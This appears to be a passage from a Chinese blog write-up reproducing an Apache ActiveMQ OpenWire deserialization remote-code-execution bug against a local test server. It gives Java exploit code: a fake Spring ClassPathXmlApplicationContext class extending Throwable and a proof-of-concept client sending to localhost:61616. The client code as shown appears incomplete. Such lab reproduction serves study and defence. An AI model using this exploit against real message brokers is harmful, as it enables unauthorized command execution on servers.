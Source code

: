 ```java
package org.springframework.context.support;

public class ClassPathXmlApplicationContext extends Throwable{
    private String message;

    public ClassPathXmlApplicationContext(String message) {
        this.message = message;
    }

    @Override
    public String getMessage() {
        return message;
    }
}
```

然后是从网上找一个使用案例即可

```java
import org.apache.activemq.ActiveMQConnectionFactory;
import org.apache.activemq.command.ActiveMQObjectMessage;
import org.apache.activemq.command.ExceptionResponse;
import org.apache.activemq.openwire.OpenWireFormat;
import org.apache.activemq.openwire.v1.BaseDataStreamMarshaller;
import org.apache.activemq.openwire.v1.ExceptionResponseMarshaller;

import javax.jms.*;


public class poc {
    public static void main(String[] args) throws JMSException {

        ConnectionFactory connectionFactory = new ActiveMQConnectionFactory("tcp://localhost:61616");
        Connection connection = connectionFactory.createConnection();
        connection.start();
        Session session = connection.createSession(true,1);
        Destination destination = session.createQueue("tempQueue");

        MessageProducer producer = session.createProducer(destination);
        Message message = session.createObjectMessage("123");
        producer.send(message);
        connection.close();
    }
}
```

序列化链子，记得开启服务端，因为漏洞就是客户端远程命令执行服务端，没服务端😂😂😂

![image-20240106122752311](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240106122752311.png)

因为我的服务端搭建在了本地，所以本地弹出了计算器
